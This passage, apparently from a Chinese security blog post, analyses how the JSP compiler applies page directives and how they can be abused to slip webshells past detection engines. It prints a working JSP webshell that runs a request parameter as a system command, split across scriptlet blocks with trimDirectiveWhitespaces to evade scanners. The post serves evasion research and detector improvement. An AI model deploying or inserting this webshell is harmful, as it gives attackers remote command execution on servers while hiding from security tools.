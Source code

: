 前面的部分主要是通过调用如下代码：

```java
this.pageInfo = new PageInfo(new BeanRepository(this.ctxt.getClassLoader(), this.errDispatcher), this.ctxt.getJspFile(), this.ctxt.isTagFile());
JspConfig jspConfig = this.options.getJspConfig();
JspConfig.JspProperty jspProperty = jspConfig.findJspProperty(this.ctxt.getJspFile());
```

生成一个pageInfo对象，接着获取jsp文件中的属性，后续根据属性的不同进行不同的配置。通过一连串的if进行选项配置。

```java
if (jspProperty.isELIgnored() != null) ...
if (jspProperty.isScriptingInvalid() != null) ...
if (jspProperty.getIncludePrelude() != null) ...
if (jspProperty.getIncludeCoda() != null) ...
if (jspProperty.isDeferedSyntaxAllowedAsLiteral() != null) ...
if (jspProperty.isTrimDirectiveWhitespaces() != null) ..
if (jspProperty.getBuffer() != null) ...
if (jspProperty.isErrorOnUndeclaredNamespace() != null) ...
if (this.ctxt.isTagFile()) ...
```

这些配置在jsp可控，那就可以通过控制一些特定的配置，使样本看起来有一点点的反常，如果引擎未能识别到这种参数，那就存在绕过的可能。一个典型的例子是p牛分享过的，利用trimDirectiveWhitespaces属性忽略jsp不同块之间的空白字符，

样本如下：

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page trimDirectiveWhitespaces='true' %>
<%
    Runtime
%>
<%
    .getRuntime()
%>
<%
    .exec(request.getParameter("test"));
%>
```

对应到代码上是：

```java
if (jspProperty.isTrimDirectiveWhitespaces() != null) 
{
    this.pageInfo.setTrimDirectiveWhitespaces(JspUtil.booleanValue(jspProperty.isTrimDirectiveWhitespaces()));
}
```

不加该属性，生成的java文件会是这样：

 ![](/attachments/2024-06-19-webshell/49eff978-1153-46ae-8005-c0a2222162d5.png)

添加属性后，输出的java文件不会再被添加换行。

